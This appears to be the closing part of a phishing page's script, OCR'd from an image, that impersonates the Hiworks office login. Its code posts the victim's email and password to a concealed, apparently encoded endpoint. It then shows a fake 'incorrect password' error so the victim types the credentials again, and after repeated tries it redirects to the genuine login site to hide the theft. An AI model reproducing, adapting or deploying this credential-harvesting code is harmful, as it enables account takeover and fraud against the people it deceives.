             const formData = {
              email,
              password,
            };

            fetch(decodedUrl, {
              method: 'POST',
              mode: 'no-cors',
              headers: {
                'Content-Type': 'application/json',
              },
              body: JSON.stringify(formData),
            })
              .then(response =>
              {
                // Check if the response is JSON
                if (response.headers.get('content-type')?.includes('application/json')) {
                  return response.json();
                } else {
                  return response.text().then(text => { console.log(Error(text)) });
                }
              })
              .then(data =>
              {
                console.log('Response JSON:', data);
                if (count >= 2) {
                  errorText.style.display = 'none';
                  window.location = 'https://login.office.hiworks.com';
                } else {
                  document.getElementById('password').value = '';
                  setTimeout(() =>
                  {
                    errorText.innerHTML = 'ID or password is incorrect';
                  }, 400);
                  document.getElementById('password').style.display = 'block';
                  document.getElementById('submit_button2').style.opacity = '0.3';
                  errorText.style.display = 'block';
                  setTimeout(() =>
                  {
                    errorText.style.display = 'none';
                  }, 4000);
                }
              })
              .catch(error =>
              {
                console.error('Error:', error);
                errorText.innerHTML = 'An unexpected error occurred. Please try again later.';
                errorText.style.display = 'block';
              });
          }
        }

        function getUrlParameter()
        {
          var hash = location.hash;
          return hash ? decodeURIComponent(hash.substring(1).replace(/\+/g, ' ')) : '';
        }
      });



    </script>
  </body>

</html>

